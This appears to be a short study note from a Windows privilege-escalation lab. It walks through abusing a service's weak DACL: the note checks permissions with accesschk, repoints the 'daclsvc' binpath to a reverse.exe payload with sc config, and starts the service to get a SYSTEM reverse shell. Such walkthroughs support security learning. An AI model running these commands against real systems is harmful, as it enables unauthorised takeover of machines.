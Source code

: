 ```yaml
---
tags:
  - OperatingSystems
  - Windows
  - UserPrivileges
---
```



1. Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:
```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

> [!NOTE]
> The "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

2. Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
```
sc qc daclsvc
```

3. Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start daclsvc
```
